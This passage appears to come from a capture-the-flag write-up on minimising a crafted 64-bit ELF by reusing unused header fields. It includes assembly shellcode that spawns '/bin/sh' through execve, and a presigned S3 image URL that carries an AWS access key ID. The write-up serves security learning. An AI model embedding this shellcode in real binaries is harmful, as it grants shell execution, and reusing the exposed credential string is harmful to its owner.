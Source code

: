 And the first flag:

![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/3b83e2e9-6efa-497b-a3fc-27acb7f2573c/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20200425%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20200425T151720Z&X-Amz-Expires=86400&X-Amz-Signature=3b4a09774596aa5f7e4fc3977a8f927a9b57d1fccc14cea9a9b2a198851c384b&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22)

### Reducing to the Minimum

Lets try to find more unnecessary dynamic fields. 

We can remove `DT_SYMENT` and `DT_STRSZ`, but anything beyond that will give us SegFault.

Next effort will be finding unused fields inside program header, and elf header.

I iterated all the fields to find all the unused one. I also changed the the shellcode:

```wasm
bits 64
            org 0x08048000

ehdr:                                           ; Elf64_Ehdr
            db  0x7F, "ELF", 2, 1, 1, 0         ;   e_ident
    times 8 db  0
            dw  3                               ;   e_type
            dw  62                              ;   e_machine
            dd  1                               ;   e_version
            dq  _start                          ;   e_entry
            dq  0x40                            ;   e_phoff
            times 12 db 9   ; FREE SPACE
            dw  0x40                            ;   e_ehsize
            dw  0x38                            ;   e_phentsize
            dw  2                               ;   e_phnum
            times 6 db 9    ; FREE SPACE

phdr_load:                                           ; Elf64_Phdr
            dd  1                               ;   p_type
            dd  7                               ;   p_flags
            dq  0                               ;   p_offset
            dq  $$                              ;   p_vaddr
            times 16 db 9   ; FREE SPACE
            dq  filesize                        ;   p_memsz
            dq  0x1000                          ;   p_align

phdr_dyn:                                           ; Elf64_Phdr
            dd  2                               ;   p_type
            dd  6                               ;   p_flags
            dq  dyn_offset                      ;   p_offset
            dq  _dyn                            ;   p_vaddr
            times 32 db 9   ; FREE SPACES

_start:
    xor eax, eax
    mov rbx, 0xFF978CD091969DD1
    neg rbx
    push rbx
    push rsp
    pop rdi
    cdq
    push rdx
    push rdi
    push rsp
    pop rsi
    mov al, 0x3b
    syscall

dyn_offset equ $ - $$

_dyn:
```
